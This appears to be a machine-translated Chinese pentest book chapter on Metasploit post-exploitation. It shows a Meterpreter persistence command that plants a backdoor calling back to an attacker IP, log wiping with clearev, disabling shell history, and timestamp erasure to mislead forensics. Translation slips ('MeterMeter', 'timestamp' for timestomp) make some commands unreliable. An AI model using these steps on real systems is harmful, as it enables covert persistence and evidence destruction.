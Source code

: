 # 维护通道和清理轨道

在上一章中，我们学习了权限升级的概念以及实用的升级技术。

在本章中，我们将学习如何在受损系统上维护访问权限，并使用反取证技术清理轨迹。我们将学习如何在受损系统上创建持久后门，并使用 Metasploit 的反取证能力清除渗透痕迹。

本章将介绍以下主题：

*   维护访问权限
*   清理路轨
*   反取证

# 维护访问权限

到目前为止，在本书中，我们已经看到了渗透测试的各个阶段。所有这些阶段都需要大量的时间和精力。让我们假设您正在对目标进行渗透测试，并努力使用 Metasploit 获得远程系统访问。您希望在任务继续期间，将这一来之不易的访问权限保留几天。但是，无法保证受损系统在此期间是否会重新启动。如果它重新启动，您的访问权限将丢失，您可能需要再次工作才能获得相同的访问权限。这正是我们想要维护或保持对受损系统的访问的场景，而不管它是否重新启动。

Metasploit 提供了一些优秀的内置机制，可以帮助我们保持对受损系统的持久访问。第一步是针对易受攻击的目标系统使用适当的可用漏洞，并获得 MeterMeter 访问权限，如以下屏幕截图所示：

![](assets/b2851627-c0a8-49fd-ae4a-d4bad9f6ab73.png)

一旦攻击成功，我们就可以访问远程系统。Metasploit 中的 MeterMeter 提供了一个名为`persistence`的实用程序，可帮助我们在受损系统上安装永久后门。我们可以通过`run persistence -h`命令了解更多关于`persistence`实用程序的信息：

![](assets/33782514-af5a-4d03-ba41-9d06880628bb.png)

现在我们执行`persistence`命令：

```
meterpreter >run persistence –A –L c:\\ -X 60 –p 443 –r 192.168.25.130
```

此命令将执行`persistence`脚本并启动一个匹配的处理程序（`-A`），将仪表表放置在目标系统（`-L c:\\`上的`c:\\`，在系统引导时自动启动侦听器（`-X`），每 60 秒检查一次连接（`60`），在端口`443`（`-p 443`上连接），并通过 IP 地址`192.168.25.130`与我们联系。

`persistence`脚本执行的输出如下：

![](assets/56119311-b4c1-483d-b8a7-b8957aa3c1cb.png)

既然`persistence`脚本已经成功安装在目标系统上，我们就不必担心重新启动了。即使目标系统有意或无意地重新启动，`persistence`脚本也会自动连接回我们，让我们再次访问 MeterMeter。

# 清理路轨

渗透测试由针对目标执行的一系列复杂任务组成。这些任务的执行以多种方式影响目标系统。一些配置文件可能会被修改，许多审核记录可能会记录在日志文件中，对于 Windows 系统，注册表中可能会有更改。所有这些变化都有助于研究者或蓝队成员追踪攻击向量。

完成渗透测试后，最好清除在泄露过程中使用的所有剩余文件。然而，这需要与蓝队达成一致。清除所有痕迹背后的另一个意图可能是测试一个组织的事件后响应方法。然而，现实世界中的攻击者只会利用它来掩盖自己的行踪，不被发现。

Metasploit 具有某些功能，有助于清除轨迹。首先，我们需要利用漏洞，让 MeterMeter 访问我们的目标：

![](assets/b4b9c3e8-0a35-43c7-89a5-a005d39b34ca.png)

以下屏幕截图显示了目标系统上的应用程序事件日志：

![](assets/859e6c25-02ed-4a4f-aa7f-836700e5be7c.png)

以下屏幕截图显示了目标系统上的`System`事件日志：

![](assets/d874c0a5-b473-4d67-ac9a-08eb488805be.png)

现在我们已经授予 MeterMeter 访问目标系统的权限，我们将使用`getsystem`命令将我们的权限升级为管理员的权限。MeterMeter 有一个名为`clearev`的实用程序，用于清除目标系统上的审核记录。当我们执行`clearev`时，目标上的所有审核记录都被删除：

![](assets/d9af5879-b8c8-4663-a119-06756ff7c95e.png)

以下屏幕截图显示没有应用程序事件日志，因为它们被`clearev`删除：

![](assets/43af6a3f-66f7-4d6c-97d7-9fb54a1229c4.png)

以下屏幕截图显示没有系统事件日志，因为它们被`clearev`删除：

![](assets/584ee98d-d327-4501-a7c7-3527a8dfb78c.png)

类似地，在使用 Linux 操作系统的目标上，我们可以做一些事情来清除跟踪。Linux 终端维护一个命令历史记录，可以使用`history`命令查看：

![](assets/a3565782-5d49-40e3-bc10-7d4be4436499.png)

在 Linux 系统（基于 Debian）上，负责控制命令历史记录的参数为`$HISTSIZE`。如果我们能够将其值设置为`0`，则不会存储任何命令历史记录：

![](assets/d8ea765e-028f-4410-8cd5-3aefe4474b63.png)

# 反取证

在上一节中，我们看到渗透测试任务会留下多个轨迹和轨迹。事后的法医调查可以揭示很多关于妥协是如何发生的。进行法医分析时的一个重要因素是时间戳。文件时间戳有助于重新创建可能发生的一系列活动。

Metasploit 提供的功能可以有效地用于覆盖时间戳值并误导法医调查。

首先，我们使用针对目标的漏洞来获取 MeterMeter 访问权限。然后我们使用`timestomp <filename> -v`命令列出与文件相关的各种时间戳：

![](assets/9eb1336c-08a4-4383-bef5-962afcf88a93.png)

我们现在可以尝试使用`timestamp <filename> -b`命令擦除文件的时间戳。此命令将清除与目标文件关联的所有时间戳：

![](assets/7c098fc8-9bb8-4442-98c3-046974762c61.png)

# 总结

在本章中，我们学习了对受损目标进行持久访问的各种技术。我们还学习了从受损系统中清除痕迹的各种方法，以及 Metasploit 框架的一些反取证能力。

在下一章中，我们将了解正确的漏洞评分的重要性。